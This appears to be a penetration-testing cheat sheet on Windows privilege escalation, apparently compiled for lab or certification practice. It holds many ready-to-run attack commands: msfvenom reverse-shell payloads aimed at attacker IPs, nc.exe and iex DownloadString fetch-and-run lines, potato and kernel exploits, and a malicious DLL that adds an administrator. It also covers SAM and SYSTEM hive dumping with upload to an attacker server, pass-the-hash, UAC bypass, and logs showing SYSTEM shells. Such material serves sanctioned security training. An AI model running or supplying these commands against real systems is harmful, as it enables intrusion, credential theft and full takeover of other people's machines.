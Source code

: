 # Privilege Escalation (Windows)

<details>

<summary>Automated Tools</summary>

* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)

If unable to run scripts/executables on target, use Windows Exploit Suggester on attacker's machine

### Windows Exploit Suggester

On Victim: `systeminfo`

On Attacker:&#x20;

```bash
python2.7 windows-exploit-suggester.py --update
```

```bash
python2.7 windows-exploit-suggester.py -i systeminfo -d 2023-03-10-mssb.xls
```

### PowerUp.ps1

```bash
powershell -ep bypass -c "Import-Module .\powerup.ps1; Invoke-AllChecks"
```

```bash
powershell -ep bypass
Import-Module .\powerup.ps1
. .\powerup.ps1
Invoke-AllChecks
```

### Windows Privesc Check

<pre><code><strong>windows-privesc-check --dump -G
</strong></code></pre>

</details>

### Enumeration

<details>

<summary>Basic System Info</summary>

* To find the username the shell is running as

```bash
whoami
```

* Checks privileges

```bash
whoami /priv
```

* To find the OS, version and architecture

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

* List system-wide updates

```shell
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

* Powershell command to enumerate the loaded device drivers and kernel modules

```shell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```

* Request the version of each of the loaded driver

```shell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

</details>

<details>

<summary>Users &#x26; Groups</summary>

* To find the user and groups that a user belongs

```shell
net user <username>
```

* To find other accounts

```shell
net user
```

* Check who's in the local administrator group

```bash
net localgroup administrators
```

* Check what groups the user is in

```bash
whoami /groups
```

</details>

<details>

<summary>Registry</summary>

```bash
reg query HKLM /f password /t REG_SZ /s
```

* Find admin AutoLogon credentials

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

* Check if Always Install Elevated is enabled

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

</details>

<details>

<summary>Network </summary>

* Show network interfaces

```shell
ipconfig /all
```

* Show the routing table

```shell
route print
```

* Show active listening network connections

```shell
# To obtain the PID, listening ports
netstat -an | findstr LISTEN

# To determine which service is running on a particular port
tasklist /v | findstr <PID>
powershell -c Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
```

Are there any internal services? (Local address that's not 0.0.0.0)

* Show the firewall profile&#x20;
  * is it active?

```shell
netsh advfirewall show currentprofile
```

#### Show all firewall rules

* New:

```bash
netsh advfirewall firewall dump
```

* Old:

```shell
netsh advfirewall firewall show rule name=all
```

```bash
netsh firewall show state
```

```bash
netsh firewall show config
```

* Obtain different drives' names

```bash
wmic logicaldisk get caption
```

* List all drives that are currently mounted and those physically connected but not mounted

```shell
mountvol
```

</details>

<details>

<summary>Services </summary>

* View scheduled tasks

```shell
schtasks /query /fo LIST /v
```

* Lists applications that are installed by Windows Installer

```shell
wmic product get name, version, vendor
```

* To find the services

```bash
sc queryex type= service
```

* Running services

```shell
tasklist /SVC
```

</details>

<details>

<summary>Local Administrator Password Solution (LAPS)</summary>

* Secure and scalable way of remotely managing the local administrator password for domain-joined computers
  * ms-mcs-AdmPwd
    * Contains the clear text password of the local administrator account

## Check if LAPS is installed Locally

```powershell
# Identify if installed to Program Files
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'

# Identify if installed by checking the AD Object
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'
```

## Exploitation

```powershell
# PowerView
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/PowerView.ps1')
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}

# OR LAPSToolKit
# git clone https://github.com/leoloobeek/LAPSToolkit.git
iex (New-Object Net.Webclient).DownloadString("http://IP/LAPSToolkit.ps1")
# Show LAPS enabled computers && cleartext password if any
Get-LAPSComputers
# Get the groupname that can view LAPS passwords
Find-LAPSDelegatedGroups
# Find the accounts that can view LAPS passwords
Get-NetGroupMember -GroupName "XXX"
```

</details>

<details>

<summary>Files &#x26; Directories </summary>

Use `dir /a` to see hidden files (eg: `.git` files)

* Look at PowerShell history file

```sh
PS C:> cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine

# $env:APPDATA --> C:\Users\sql_svc\AppData\Roaming
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```bash
powershell -c dir $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
powershell -c type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Search for any file or directory that allows the Everyone group write permissions

```shell
accesschk.exe -uws "Everyone" "C:\Program Files"
```

* AccessChk from SysInternals

- Powershell cmd to find files that can be modified by everyone

```shell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

</details>

<details>

<summary>Paths</summary>

### User PATH

```bash
%PATH%
FOR /F "tokens=1,3* skip=2" %G IN ('reg query HKCU\Environment') DO @echo %G=%H %I
```

### Global PATH

```bash
 FOR /F "tokens=1,3* skip=2" %G IN ('reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"') DO @echo %G=%H %I
```

</details>

<details>

<summary>Password Hunting</summary>

* Searching for the string `password` in files recursively from a directory
  * `s` = recursive
  * `p` = skip non-printable characters
  * `i` = case insensitive
  * `n` = print line numbers

```bash
findstr /spin /c:"password" *.*
```

```bash
findstr /si password *.xml *.ini *.txt
```

* Windows Autologin

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

* Powershell history file

```powershell
# In Powershell
cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\

# In Cmd
C:\Users\YourUserName\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

* VNC

```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

* SNMP

```bash
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

* Putty

```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

* Registry

```bash
reg query HKLM /f password /t REG_SZ /s
```

```bash
findstr /si password *.txt *.ini *.config
```

</details>

<details>

<summary>Email Hunting</summary>

```bash
dir *.dbx /s
```

</details>

<details>

<summary>Presence of WSL</summary>

```bash
where /R c:\windows bash.exe
```

```bash
where /R c:\windows wsl.exe
```

</details>

<details>

<summary>Default files in Windows</summary>

* OS Determination

```bash
\windows\system32\license.rtf
```

```bash
\windows\system32\eula.txt
```

</details>

### Common Methods

<details>

<summary>Kernel</summary>

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

### SMBGhost&#x20;

```bash
# CVE-2020-0796
# https://github.com/danigargu/CVE-2020-0796

# Compile it with Visual Studio. Change payload in exploit.cpp line 204 and add msfvenom payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.60 LPORT=8081 -f dll -f csharp

# Compile it. Change 'debug' to 'release', set correct architecture. 
# Transfer to target

.\cve-2020-0796-local.exe 
```

### MS16-032

<pre class="language-bash"><code class="lang-bash"># https://github.com/egre55/windows-kernel-exploits/blob/master/MS16-032:%20Secondary%20Logon%20Handle/Invoke-MS16-032-Remote-Shell.ps1#L10
<strong>
</strong><strong>msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o reverse.exe
</strong>
#Edit inside Invoke-MS16-032-Remote-Shell.ps1
Remove all the "/c C:\Users\Public\Music\nc.exe host port -e cmd.exe"
Edit all the "C:\Windows\System32\cmd.exe" to "c:\HFS\reverse.exe"

# Must use the following 64bit Powershell exe
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -ep bypass .\Invoke-MS16-032-Remote-Shell.ps1
</code></pre>

</details>

<details>

<summary>Tater (Hot Potato)</summary>

[https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

Affects the various windows versions

* Windows 7
* Windows 8
* Windows 10
* Windows Server 2008
* Windows Server 2012

Transfer `tater.ps1` over to victim

```bash
. .\tater.ps1
```

```bash
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

</details>

<details>

<summary>Show Currently Stored Creds</summary>

```bash
cmdkey /list
```

```
## Output
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

```bash
runas /savecred /user:ACCESS\Administrator reverse.exe
```

</details>

<details>

<summary>Autoruns</summary>

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```shell
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Have to wait for an administrator to login

</details>

<details>

<summary>Unquoted Service Path</summary>

Eg: Consider the string "c:\program files\sub dir\program name". The system tries to interpret the possibilities in the following order:&#x20;

* _**c:\program.exe, c:\program files\sub.exe, c:\program files\sub dir\program.exe, c:\program files\sub dir\program name.exe**_

```sh
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" 
```

```shell
sc qc <service_name>
```

If `START_TYPE : 2 AUTO_START` , then put in the malicious file and `shutdown /r /t 0` to restart the computer (hence, restarting the service).

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

```shell
net start unquotedsvc
```

c:\program.exe&#x20;

c:\program files\sub.exe&#x20;

c:\program files\sub dir\program.exe

c:\program files\sub dir\program name.exe

</details>

<details>

<summary>Binary Hijacking (Service)</summary>

```bash
# Generate Reverse Shell Executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.222 LPORT=80 -f exe -o reverse.exe

# Stop the service first to replace binary, otherwise access is denied.
net stop kiteservice

# Overwrite the service executable with malicious rev shell exe
move reverse.exe KiteService.exe

# Restarts the service
net start kiteservice

# Netcat Listener
┌──(root㉿kali)-[/prac_oscp/192.168.191.151]
└─# nc -lvp 80                                         
listening on [any] 80 ...
192.168.218.151: inverse host lookup failed: Unknown host
connect to [192.168.45.222] from (UNKNOWN) [192.168.218.151] 49999
Microsoft Windows [Version 10.0.19043.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

</details>

<details>

<summary>AlwaysInstallElevated</summary>

### Check the following registry keys:

Both keys are set to 1

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Manual Method

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### OR USING METASPLOIT

```powershell
use exploit/windows/local/always_install_elevated
set payload windows/x64/meterpreter/reverse_tcp
set session 1
set LHOST tun0
run
```

</details>

<details>

<summary>Scheduled Tasks</summary>

```bash
type C:\DevTools\CleanUp.ps1
```

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

</details>

<details>

<summary>Dumping Local NTLM Hashes</summary>

* Need to extract out SYSTEM and SAM registry hives but they are locked by SYSTEM process --> unable to read/copy the files
* Create a volume snapshot
  * ```
    wmic shadowcopy call create Volume='C:'
    ```
  * ```
    vssadmin list shadows
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
     C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
     C:\users\offsec.corp1\Downloads\system
    ```
* Using reg save
  * ```
    reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    reg save HKLM\system C:\users\offsec.corp1\Downloads\system
    ```
* Decrypt the SYSTEM & SAM files
  * creddump
    *   ```
        git clone https://github.com/Tib3rius/creddump7
        cd creddump7
        python3 -m venv venv
        pip3 uninstall crypto 
        pip3 uninstall pycrypto 
        install pycryptodome
        python3 pwdump.py ../system1 ../sam1 
        ```



</details>

<details>

<summary>Security Account Manger (SAM) Dump</summary>

* Located in `c:\windows\system32\config`
* Extract out the passwords, hashes

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

Transfer the SAM and SYSTEM files to kali thru SMB

```shell
copy C:\Windows\Repair\SAM \\10.11.67.208\kali\
```

```shell
copy C:\Windows\Repair\SYSTEM \\10.11.67.208\kali\
```

On Kali:

```shell
git clone https://github.com/Tib3rius/creddump7;pip3 install pycryptodome
```

On Kali:

```python
python3 creddump7/pwdump.py SYSTEM SAM
```

`admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::` –> First hash is LM hash followed by NTLM hash!

On Kali:

```bash
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Ntds.dit &#x26; SYSTEM Dump</summary>

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

</details>

<details>

<summary>Passing the Hash</summary>

* Pass in the full admin hash (includes both LM and NTLM hash, separated by colon)

```bash
pth-winexe -U 'admin%hash' //10.10.202.204 cmd.exe
```

</details>

<details>

<summary>User In Local Group with Admin Privileges (UAC Bypass)</summary>

### EventViewer-UACBypass

[https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass)

* Generate reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 EXITFUNC=thread -f exe -o reverse.exe
```

* Abuse SeImpersonate privileges to obtain&#x20;
* Run `Invoke-EventViewer`

```bash
Import-Module .\Invoke-EventViewer.ps1
Invoke-EventViewer c:\temp\reverse.exe
```

OR using [FodhelperBypass.ps1](https://raw.githubusercontent.com/winscripting/UAC-bypass/refs/heads/master/FodhelperBypass.ps1)

```
iex (new-object net.webclient).downloadstring('http://192.168.45.160/FodhelperBypass.ps1')
```

</details>

<details>

<summary>Running Administrator account from normal user account</summary>

```bash
runas /env /profile /user:Administrator "c:\temp\nc.exe -e cmd.exe 192.168.45.5 443"
```

</details>

### Token Impersonation Attacks

<details>

<summary>SigmaPotato (Windows 2012 - Windows 2022)<br>Abuse seImpersonate privileges to obtain NT AUTHORITY\SYSTEM </summary>

```bash
.\sigmapotato.exe --revshell 192.168.45.218 4444
```

[https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)

</details>

<details>

<summary>PrintSpoofer (Windows 10, Server 2016/2019)</summary>

Works on all versions of Server 2016 and Server 2019, as well as every version of Windows 10 from at least 1607 onwards.

![](<../.gitbook/assets/image (147).png>)

![](<../.gitbook/assets/image (125).png>)

* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

- From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege

* This step is purely to simulate getting a service account shell

```bash
.\printspoofer64.exe -c "nc64.exe -e cmd.exe 192.168.45.213 53"
```

```bash
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

</details>

<details>

<summary>Juicy Potato</summary>

Does not work on Win10 version >= 1809, Server2019. Check Win10 versions [here](https://juggernaut-sec.com/wp-content/uploads/2022/05/image-218.png).

![](<../.gitbook/assets/image (137).png>)

* [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

- `SeImpersonatePrivilege` is enabled —> vuln to JuicyPotato PrivEsc
- Transfer nc.exe `copy \\10.10.14.6\share\nc32.exe .`

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

* If obtained the following error —> might be due to wrong CLSID
  * Find CLSID. For win server 2012 —> {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
  * [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
    * Find the BITS CLSIDs and test those first
  * Add as `-c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}`
    * `-c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

```bash
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
COM -> recv failed with error: 10038
```

* If obtained the following error —> might be windefender detecting and deleting the exploit.

```bash
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 2

[-] CreateProcessAsUser Failed to create proc: 2
```

</details>

<details>

<summary>Incognito</summary>

* Manual way: [https://github.com/milkdevil/incognito2/blob/master/incognito.exe](https://github.com/milkdevil/incognito2/blob/master/incognito.exe)
  * ```
    incognito.exe list_tokens -u
    msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=80 -f exe -o reverse_80.exe
    incognito.exe execute -c "sandbox\Administrator" reverse_80.exe
    ```

- Metasploit's method:
  * ```
    load incognito
    list_tokens -u      (Delegation tokens allow full authentication, while Impersonation tokens allow acting as another user.)
    impersonate_token corp1\\admin
    getuid
    ```



</details>

<details>

<summary>Rogue Potato</summary>

Works on versions of Windows after the changes took place (1809+)

Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege

* [Rogue Potato ](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0)

- Setting up a spoofed OXID resolver
  * Forwards Kali port 135 to port 9999 on Windows.

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<victim's IP>:9999
```

```bash
.\RoguePotato.exe -r 172.16.1.30 -e "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -l 9999
```

* `-c "{6d18ad12-bde3-4393-b311-099c346e6df9}"`

</details>

### Less Common Methods

<details>

<summary>Insecure Service Permissions (Modifiable Service)</summary>

* Checks the “user” account’s permissions on the ”daclsvc” service

- “user” account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG)

```shell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

```shell
sc qc daclsvc
```

```shell
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

```shell
net start daclsvc
```

OR USING POWERSHELL...

```powershell
cmd /c sc qc <service_name>
```

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

Start Type --> Change to autostart

```powershell
cmd /c sc config <service_name> start=auto
```

Add final.com\nina to local administrators group: --> DO NOTE THAT LocalService doesn't have enough rights to add users

```powershell
cmd /c sc config <service_name> binpath= "net localgroup Administrators final.com\nina /add" obj= "NT AUTHORITY\SYSTEM"
```

Ensure that changes are updated & run it

```
cmd /c sc qc <service_name>
net start <service_name>
```

"The service is not responding to the control function." is normal.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>DLL Hijacking</summary>

* Find the DLLs that have `NAME NOT FOUND` and is in writable directories.
  * eg `c:\temp\hijackme.dll`

```bash
 // For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o        output.dll
 // For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.  dll
 
 #include <windows.h>
 
 BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
     if (dwReason == DLL_PROCESS_ATTACH) {
         system("cmd.exe /k net localgroup administrators user /add");
         ExitProcess(0);
     }
     return TRUE;
 }
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

* Transfer `output.dll` to `c:\temp\hijackme.dll`
* Restart the `dllsvc` service
  * `sc stop dllsvc`
  * `sc start dllsvc`

## OR..

In CLIENT01 process monitor:

![](<../.gitbook/assets/image (5) (1) (1).png>)

* Create malicious msasn1.dll & save to C:\Program Files\FileZilla Server --> Rev shell
  * ```powershell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o msasn1.dll
    ```
  * ```powershell
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
    ```
    *

        <figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>


  * Start Filezilla server
* ```powershell
  Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
  copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
  ```

</details>

<details>

<summary>Weak Registry Permissions</summary>

* To find weak registry perm, use the following command
  * Will show `NT AUTHORITY\INTERACTIVE Allow FullControl`

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* Using command prompt,

```bash
sc qc regsvc
```

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Registry entry for regsvc service is writable by NT AUTHORITY\INTERACTIVE group (essentially all logged-on users)

```basic
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Overwrite the ImagePath registry key to point to the reverse.exe executable

```bash
net start regsvc
```

</details>

<details>

<summary> Insecure service Executables</summary>

<pre class="language-shell"><code class="lang-shell"><strong>sc qc filepermsvc
</strong></code></pre>

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```shell
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Service binary (BINARY\_PATH\_NAME) file is writable by everyone)

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```shell
net start filepermsvc
```

</details>

<details>

<summary>Insecure GUI Apps</summary>

Login to user account

```bash
rdesktop -u user -p password321 10.10.201.218
```

Double-click `AdminPaint` shortcut on Desktop

```bash
tasklist /V | findstr mspaint.exe
```

Paint is running with admin privileges

In Paint, `File` –> `Open`. `file://c:/windows/system32/cmd.exe`

</details>

<details>

<summary>Startup Apps</summary>

* To search for writable startup apps folder
  * he `BUILTIN\Users`group has full access ‘(F)’ to the directory

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

* Generate reverse shell:&#x20;

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.20.202 LPORT=443 -f exe > reverse.exe
```

* Put `reverse.exe` into startup folder

```bash
copy reverse.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.exe"
```

* Wait for administrator to login

</details>

<details>

<summary>SeRestorePrivilege</summary>

```bash
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
mv C:\Windows\System32\cmd.exe c:\Windows\System32\utilman.exe
```

On Kali:

```bash
rdesktop 192.168.204.165
```

Win Key + U --> Spawned NT Authority\System shell

</details>

<details>

<summary>SeBackupPrivilege</summary>

On Victim:

```bash
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Transfer files to attacker:

```bash
# On Attacker:
wget https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
powershell -c curl.exe -F 'file=@c:\\temp\\system' http://192.168.45.162
powershell -c curl.exe -F 'file=@c:\\temp\\sam' http://192.168.45.162
```

Dump out the hashes

```bash
git clone https://github.com/Tib3rius/creddump7
python3 creddump7/pwdump.py system sam
```

</details>

<details>

<summary>WerTrigger</summary>

For Example, MySQL Service has File Write permission as SYSTEM

Checking to see if MySQL Service has File Write perm as SYSTEM:

<pre class="language-sql"><code class="lang-sql">MariaDB [(none)]> select load_file('C:\\temp\\chiselx64.exe') into dumpfile 'C:\\temp\\try.exe';
<strong>
</strong><strong>#Have File Write permission as SYSTEM through mysql.
</strong>c:\temp>icacls try.exe
try.exe NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
</code></pre>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger)

[https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

```sql
c:\temp>certutil -urlcache -f http://192.168.45.5/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/WerTrigger.exe WerTrigger.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/Report.wer Report.wer
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/phoneinfo.dll phoneinfo.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.

MariaDB [(none)]> select load_file('C:\\temp\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";
Query OK, 1 row affected (0.254 sec)

#After running WerTrigger.exe, we won't receive any prompt but we can still enter commands to execute.
c:\temp>WerTrigger.exe
c:\temp\nc.exe -e cmd.exe 192.168.45.5 445
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/craft2]
└─# nc -lvp 445
listening on [any] 445 ...
connect to [192.168.45.5] from craft.offsec [192.168.159.188] 49770
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>
